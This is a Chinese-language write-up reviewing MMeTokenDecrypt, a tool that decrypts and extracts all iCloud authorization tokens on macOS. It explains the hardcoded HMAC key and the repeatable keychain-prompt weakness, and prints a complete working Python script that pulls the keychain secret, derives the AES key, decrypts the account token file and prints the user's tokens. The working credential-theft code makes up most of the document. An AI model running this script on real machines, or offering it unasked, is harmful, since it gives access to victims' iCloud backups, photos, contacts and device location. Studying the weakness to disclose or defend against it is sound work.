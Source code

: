 # 实验code review 解码苹果上所有的Tokens decrypts/extracts all authorization tokens on macOS/OSX

工具: [MMeTokenDecrypt](https://github.com/manwhoami/MMeTokenDecrypt)

作者: [kiba](https://github.com/ovekiba/)



--------



# 介绍

工具[MMeTokenDecrypt](https://github.com/manwhoami/MMeTokenDecrypt)中提供了一个脚本，用于解码出macOS/OS X/OSX上所有的授权口令。这是因为系统中授权钥匙链访问方式有漏洞造成的。

授权口令存放在文件**/Users/用户名/Library/Application Support/iCloud/Accounts/DSID**中，其中DSID是一个数字，是苹果对于每个iCloud账号在系统后端中的标识符。

其中DSID文件使用一个空的初始化向量和AES-128 CBC算法加密。用于解密这个文件的密匙存放在用户的钥匙串中，在系统服务iCloud下，名字是和iCloud账号关联的首选邮箱。

得到了iCloud中与帐号关联的首选邮箱的密匙后，该密匙格式是base64，用base64解码后，作为标准哈希消息认证码(Hmac，Hash-based Message Authentication Code)算法中的消息使用。而问题在于，这儿的Hmac算法中使用的密匙是硬编码到MacOS系统内部中的。解密DSID文件的密匙是44个字符长的随机字母，即"t9s\"lx^awe.580Gj%'ld+0LG<#9xa?>vb)-fkwb92[}"。



# 意义

唯一拥有类似功能的软件是“Elcomsoft Phone Breaker”，[MMeTokenDecrypt](https://github.com/manwhoami/MMeTokenDecrypt)允许任何开发者在他们的项目中解密iCloud授权的文件，此工具是开源的。

苹果需要重新设计钥匙链的请求方式来避免此问题。因为此工具fork一个新的安全的、苹果签名了的进程来解密授权文件，用户对弹出的钥匙链请求对话框叶不会警觉。不仅如此，攻击者可以重复的请求访问钥匙链，直到用户同意访问，因为苹果并未限制被拒绝后需要等待的时间。这就允许解码iCloud的所有授权口令，这些口令就能用于访问几乎所有的iCloud服务器，包括（iOS备份，iCloud联系人，iCloud照片库，查找我的朋友，定位我的手机）。

# 验证

验证脚本如下：
```python
#!/usr/bin/env python
#coding: utf-8

## 导入使用的库
import base64, hashlib, hmac, subprocess, sys, glob, os, binascii
from Foundation import NSData, NSPropertyListSerialization

# 获取iCloud的密匙
iCloudKey = subprocess.check_output("security find-generic-password -ws 'iCloud' | awk {'print $1'}", shell=True).replace("\n", "")
if iCloudKey == "":
	print "ERROR getting iCloud Decryption Key"
	sys.exit()

# 解码iCloud的密匙
msg = base64.b64decode(iCloudKey)

# 硬编码在系统中的字符串
#Constant key used for hashing Hmac on all versions of MacOS. 
#this is the secret to the decryption!
#/System/Library/PrivateFrameworks/AOSKit.framework/Versions/A/AOSKit yields the following subroutine
#KeychainAccountStorage _generateKeyFromData:
#that uses the below key that calls CCHmac to generate a Hmac that serves as the decryption key
key = "t9s\"lx^awe.580Gj%'ld+0LG<#9xa?>vb)-fkwb92[}"

# 将iCloud解码后的数据作为Hmac中的消息
# 将硬编码在系统中的字符串作为Hmac中的密匙
# md5算法作为Hmac中的哈希算法
#create Hmac with this key and iCloudKey using md5
hashed = hmac.new(key, msg, digestmod=hashlib.md5).digest()
hexedKey = binascii.hexlify(hashed) #turn into hex for openssl subprocess

# 空的加密向量
IV = 16 * '0'

#找到DSID文件
mmeTokenFile = glob.glob("%s/Library/Application Support/iCloud/Accounts/*" % os.path.expanduser("~"))
for x in mmeTokenFile:
	try:
		int(x.split("/")[-1]) #if we can cast to int, that means we have the DSID / account file. 
		mmeTokenFile = x
	except ValueError:
		continue
if not isinstance(mmeTokenFile, str):
	print "Could not find MMeTokenFile. You can specify the file manually."
	sys.exit()
else:
	print "Decrypting token plist -> [%s]\n" % mmeTokenFile

# 利用算法aes-128 cbc解码DSID文件
#perform decryption with zero dependencies by using openssl binary
decryptedBinary = subprocess.check_output("openssl enc -d -aes-128-cbc -iv '%s' -K %s < '%s'" % (IV, hexedKey, mmeTokenFile), shell=True)

# 分析文件
#convert the decrypted binary plist to an NSData object that can be read
binToPlist = NSData.dataWithBytes_length_(decryptedBinary, len(decryptedBinary))
#convert the binary NSData object into a dictionary object
tokenPlist = NSPropertyListSerialization.propertyListWithData_options_format_error_(binToPlist, 0, None, None)[0]
#ta-da
print "Successfully decrypted token plist!\n"
print "%s [%s -> %s]" % (tokenPlist["appleAccountInfo"]["primaryEmail"], tokenPlist["appleAccountInfo"]["fullName"], tokenPlist["appleAccountInfo"]["dsPrsID"])
print tokenPlist["tokens"]

```

执行结果：
![mme-token-decrypt](./pictures/mme-token-decrypt.png)
